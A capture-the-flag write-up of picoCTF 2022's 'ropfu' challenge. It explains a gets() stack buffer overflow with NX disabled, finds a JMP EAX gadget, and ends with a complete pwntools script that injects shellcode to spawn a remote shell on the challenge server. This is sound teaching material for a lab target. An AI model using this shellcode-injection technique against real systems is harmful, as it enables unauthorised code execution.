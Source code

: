 ```yaml
---
title: "Ropfu Writeup - picoCTF 2022"
excerpt: "Writeup of the binary exploitation challenge 'ropfu' of picoCTF 2022"
categories:
 - Writeups
tags:
 - Binary Exploitation
 - picoCTF
toc: true
toc_sticky: true
---
```


## Introduction

Hi everyone! In this article I will talk about the binary exploitation challenge 'ropfu' of picoCTF 2022.

I promise I will do my best to keep this guide as beginner-friendly as possible, but a *bit* of general knowledge about binary exploitation is required to understand the following guide.

If you're more expert, feel free to skip this first part using the table of contents on the right!

## Code Analysis and Debugging

The thing that made me like this challenge a lot is its simplicity. 
All the binary does is:
1. print a welcome text
2. wait for user input
3. end without printing anything 

By taking a look at the .c file the challenge provided us, we can clearly see that nothing else is done.
```
void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);
}
```
First an array of 16 characters (so 16 bytes) is created, and then it's filled with user input using the function [gets](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm). The problem with this function is that it stops only when the user input ends (or when it encounters a newline character).

So if we type in our input more than 16 characters, we're overwriting areas of our memory we shouldn't have access to. This means we have a **buffer overflow** vulnerability.

Let's investigate a bit more in depth using a debugger. Specifically, I'm gonna be using gdb enhanced with [gef](https://gef.readthedocs.io/en/master/)

1. Let's place a breakpoint after the program fills the buffer with our input: `b* 0x8049dcc`

**TIP:** You can use a decompiler like Ghidra to find the address of the instruction you want to place the breakpoint on
{: .notice--info}
2. Run the binary using the command `r` and type something like 'aaaaaaaaaaaaaaaa' to fill the buffer but without doing an overflow
3. Run the command `telescope` to see the contents of the stack in a pretty format

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/stack1.png)

In order, we have:
- our buffer of 16 bytes
- other 2 unknown variables of 4 bytes (not important, since we know they're not used by the program)
- the ebp register (if you don't know what that is, watch [this video](https://youtu.be/jyRQpRHSYNY))
- the return address, which points to the instruction that will be executed when our 'vuln' function ends. This is very important for us attackers, since we can overwrite this to control what the program executes!

Now that we have a general idea of what's inside the stack, we have one last thing to do: check the security measures of the binary. We can do that inside gef by running the command `checksec`:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/checksec.png)

Gef identified a stack canary, i.e. a random 4-byte value placed before the ebp register that terminates the program if it's overwritten with a different value.
In theory this should prevent us from overwriting the return address; however, the canary gef found (0x4928c500) is not present in the stack image above. In other words, the devs intentionally disabled this form of memory protection for the 'vuln' function, so we don't have to worry about that.

Another very important security measure that must not be overlooked is NX. Here it's disabled, meaning we can execute arbitrary code directly from the stack. As we'll see, this makes things a lot easier for us.

## The Plan

So, to recap:
- we have a buffer overflow vulnerability in the 'vuln' function that lets us overwrite its return address
- NX is disabled, so we can execute code directly from the stack

The plan is, of course, to spawn a shell. And to do that, we need to make the program execute a *shellcode*. If you're using [pwntools](https://docs.pwntools.com/en/stable/), you don't have to craft that by yourself but you can use `asm(shellcraft.sh())`, that returns a byte string of 44 bytes.

There's a problem though: we only control 28 bytes before the return address, so if we place our shellcode at the start of the buffer, we're gonna end up overwriting the return address with something invalid and get a segmentation fault.

The solution to this problem is actually pretty simple: we can just place the shellcode *after* the return address, like this:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/plan.png)

Nice, the only thing we miss now is to find a method to jump to the address where our shellcode is placed, and that's the hardest part of the challenge.

## Failed Attempts

In this section I want to share a bit of *"pain"* I went through when trying to solve this challenge. Feel free to skip this part if you want to know the solution right away.

- **Attempt #1: Leak the address of my shellcode**

The first strategy I had in mind was to call the `printf` function (through the 'vuln' function) but with a different parameter, so that I can print in output something important like the esp register (that always points to the top of the stack). And from there, overwrite the return address a second time with the address of my shellcode.
The main problem with that is the ebp register: before the 'vuln' function ends, the content of the 4 bytes before the return address is copied in the ebp register. If we want to overwrite the return address, we also need to overwrite those 4 bytes with garbage, since we don't have any information about stack adresses. This will cause segmentation fault if we call 'vuln' again starting from the printf call without modifying the register first. There has to be an easier way.

## Exploitation

Since leaking an address is not an option (or a too difficult one), it's pretty clear we have to work with what we already have: registers and gadgets, i.e. small snippets of code in the binary.
Let's place a breakpoint in the RET instruction of the 'vuln' function and analyze the registers:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/registers.png)

As expected, esp points to the return address... however, after the RET instruction is executed, it will point to what's right *after* that, our shellcode! In other words, if we can find a `JMP ESP` instruction in the binary, the challenge is over! Let's use **ropper** to search for that gadget:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/ropper1.png)

Unfortunately there are no `JMP ESP` instructions in the binary. But we are getting closer! Let's check again the registers to see if there's something else that can be useful to us...

You guessed it, the eax register! Since it points to the start of our buffer, if we manage to find a `JMP EAX` instruction, we can execute any code we want! Fingers crossed...

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/ropper2.png)

Perfect! All we have to do now is to place a `JMP ESP` instruction at the start of the buffer, in **byte code** of course, so we'll use `asm('JMP ESP')`.
Here is the exploit:

This is an unpublished template for binary exploitation I created. Feel free to use it! :D
{: .notice--info}
```
#!/usr/bin/env python3

import sys
from pwn import *

if len(sys.argv) == 2 and sys.argv[1] in ['-l','-r']:
    if sys.argv[1] == '-l':
        execute_locally = True
    else:
        execute_locally = False
else:
    print("Usage: " + sys.argv[0] + " [-l/-r]\n\t-l: execute this exploit with gdb on the local elf (if you have one)\n\t-r: execute this exploit on the remote server")
    sys.exit()

# ------ REMOTE INFO ------
host, port = 'saturn.picoctf.net', PORT

# ------ LOCAL INFO (only if in whitebox environment) ------
context.binary = binary = './vuln'
vuln_elf = ELF(binary)
#libc = ELF('./path_to_libc')  # only if the challenge provides a libc library
#vuln_rop = ROP(vuln_elf) # only if you need to use gadgets

if execute_locally:
    io = process(binary)
    gdb.attach(io) # comment this line if you don't want to use gdb
else:
    io = remote(host, port)

# ---------------------------------------
# WRITE HERE YOUR EXPLOIT

payload = asm('jmp esp')
payload += b'a'* 26
payload += p32(0x0805334b)
payload += asm(shellcraft.sh())

print(io.recvrepeat(1))
io.sendline(payload)
print(io.recvrepeat(1))
io.interactive()
```

## Conclusion

This was a perfect introductory challenge to Returned Oriented Progamming (ROP).

Hope you learned something new from this writeup, see you in the next one!
